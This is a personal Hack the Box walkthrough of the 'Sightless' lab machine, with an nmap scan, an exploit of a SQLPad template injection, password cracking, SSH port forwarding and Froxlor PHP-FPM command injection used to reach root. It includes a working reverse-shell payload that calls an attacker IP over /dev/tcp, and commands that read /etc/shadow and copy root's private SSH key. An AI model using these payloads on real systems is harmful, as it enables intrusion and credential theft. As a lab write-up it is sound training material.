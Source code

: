 ```yaml
---
title: Sightless - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sightless.png
---
```

---
title: Sightless - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sightless.png
---
---
title: 2024-10-12-Sightless - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Sightless.png
---
### Scan
```
└─$ nmap -sV -sC -p- --open 10.10.11.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 14:50 EDT
Nmap scan report for 10.10.11.32
Host is up (0.12s latency).
Not shown: 56430 closed tcp ports (conn-refused), 9102 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/9%Time=6706D0C3%P=aarch64-unknown-linux-g
SF:nu%r(GenericLines,A0,"220 ProFTPD Server \(sightless\.htb F
SF:TP Server\) \[::ffff:10\.10\.11\.32\]
500 Invalid comman
SF:d: try being more creative
500 Invalid command:
SF:0try being more creative
");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.18 seconds
```

### Enum
lmao ftp prolly no go and ssh late stage
etx host
gobuster and wfuzz come up empy, but browsing sight we find sqlpad.sightless.htb. add to etc hosts
we find its version 6.10.0. Theres a vuln! https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
follow the procedure to make connection with payload
`{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"') }}`
Once we click test, we've got root. weird asf no access. we've got root as svc?
cat /etc/shadow for hashes
take and crack michael hash with john
`insaneclownposse`. now ssh in

USER:c73af69fadc2c24d1687ad3ac5154fd5

when we `netstat -tnlp`, we see port 8080 servicing, where it didnt in our scans
port forward ssh with `ssh -v -N -L 8080:localhost:8080 michael@sightless.htb`
visit `http://127.0.0.1:8080`, were met with a froxlor login
install brave >:( and go to `brave://inspect/#devices` . run netstat again and forward every port => 3 digits.
3306, 8080, 44905, 44603, 33060, 3000, 37761. create instances for all of these in brave until the froxlor appears
then, inspect, go to network tab, and probe index php and wait for the login. it'll be under payload. what the fuck
![Image](/assets/Screenshot 2024-10-09 at 4.45.19 PM (2).png)
`ForlorfroxAdmin`
we're in ![Image](/assets/Screenshot 2024-10-09 at 4.47.43 PM.png)
We can see a php configuration that allows command injection. lets copy rt flag to tmp dir. you could also copy root rsa to tmp dir and ssh in that way. ill do the latter.
create new php version under fpm versions.
put this command in `cp /root/.ssh/id_rsa /tmp/id_rsa`
then, go to system setting, php fpm, and stop and restart the service. saving each time.

```
cp /root/root.txt /tmp/root.txt
```
check to see if there, then update perms same way
`chmod 644 /tmp/root.txt`
fuck this box omm
ROOT:859ac83ce4810139ed542f1d23aee710
